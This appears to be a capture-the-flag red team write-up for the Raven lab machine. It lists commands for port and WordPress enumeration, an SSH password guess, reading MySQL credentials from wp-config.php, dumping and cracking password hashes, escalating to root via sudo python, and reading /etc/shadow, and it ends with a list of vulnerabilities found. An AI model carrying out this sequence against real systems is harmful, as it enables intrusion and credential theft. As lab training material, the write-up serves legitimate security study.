 # Reven_Security


## Red Team: Summary of Operations
Table of Contents:

* Reconnaissance Phase
* Service Abuse 
* Lateral Movement 
* Privilege Escalation
* Critical Vulnerabilities 

# Reconnaissance Phase: it is all about Enumeration!

During the reconnaissance phase on the Target, we used different tools to collect and gather important information about the target.

Tools used during the reconnaissance phase: Nmap, dirb, and wpscan 


We used Nmap to scan the target and enumerate the open ports 

Command used to scan Target 1 Machine: ` nmap -sV -sC 192.168.1.110 `

<img src="/Red Team Summary of Operations/Images/nmap.png" >

This scan identifies the services below as potential points of entry:

|  Port | Service  | 
|---|------|
| 22 |  SSH | 
| 80  | HTTP  |  
| 111  |  rcpbind | 
| 139  | NetBIOS |
| 445 | NetBIOS |

After discovering that the target is a web application running on port 80 we used dirb to enumerate the web application hidden directory.

<img src="/Red Team Summary of Operations/Images/website.png">

Command used: `dirb http://192.168.1.110 /usr/share/dirb/wordlist/small.txt`

<img src="/Red Team Summary of Operations/Images/dirb.png">
     
Using dirb give us new information that website running on WordPress, so we used wpscan to enumerate the users. 


Command used: `wpscan -url 192.168.1.110/wordpress -enumerate u `

<img src="/Red Team Summary of Operations/Images/users_enum2.png">


## Service Abuse: 
During our reconnaissance phase we found out that SSH service is open on port 22 and we discover two users michael and steven, so we abuse this two information we have and try to guess the password of one of the users.

Command used: `ssh michael@192.168.1.110`
password: `michael `

Since we were inside the target machine we were able to collect the first two flags: 
Command used for flag1: 

* `grep -lr flag1 /var/www `
* `cat /var/www/html/service.html | grep flag1 `

<img src="/Red Team Summary of Operations/Images/flag1.png">

Command used for flag2: 

* `locate flag2.txt`
 
* `cat /var/www/flag2.txt`

![flag2](https://user-images.githubusercontent.com/69011745/153727072-1bceb9f7-c7b0-4404-bfe3-df89c5c33950.png)

## Lateral Movement: 
With Michael's credentials we were able to navigate through the file system of the target machine and revealed the root username and password for MySQL database.


File Path: `/var/www/html/wordpress/wp-config.php`

<img src="/Red Team Summary of Operations/Images/password_db.png">

Next, we logged into MySQL and dumped the WordPress user password hashes using the password `R@v3nSecurity` :

Command used:
* `mysql -u root -p` 
* `show DATABASES;`
* `use wordpress;`
* `show tables;`
* `select user_login,user_pass from wp_users;`  

<img src="/Red Team Summary of Operations/Images/mysqlhashes.png">

we got flag3.txt also by:  
* `mysql -u root -p`
* `show DATABASES;`
* `use wordpress;`
* `show tables;`
* `Select * from wp_posts;`

<img src="/Red Team Summary of Operations/Images/flag3.png">

Now we have the password hash for steven, we used john to crack the password hash
Command used:
* `john hash1.txt -w=rockyou.txt ` 
<img src="/Red Team Summary of Operations/Images/CaptureJohn_Steven_Pass.PNG">


## Privilege Escalation
With steven password:`pink84,` we logged into the target machine again and checked his sudo privileges and discovered he had sudo right for python. 
We escalated our privileges from steven to root using python script.


Command used: 
* ssh steven@192.168.1.110 
* sudo -l 
* python -c 'import pty;pty.spawn("/bin/bash");'
* locate flag4.txt 
* cat /root/flag4.txt
<img src="/Red Team Summary of Operations/Images/flag4.png">

As root user, we dumped all user hashes including the root user hash:
Command used:` cat /etc/shadow`

<img src="/Red Team Summary of Operations/Images/all_hashs.png">

## Critical Vulnerabilities Discover During Our Engagement: 

* No firewall rule to block Nmap port scanning 
* Web application Directory enumeration 
* WordPress enumeration
* Poor SSH configuration 
* Weak Password policies 
* No file security permission implementation for critical files system  
* Sudo rights for python used to escalate privilege to root 
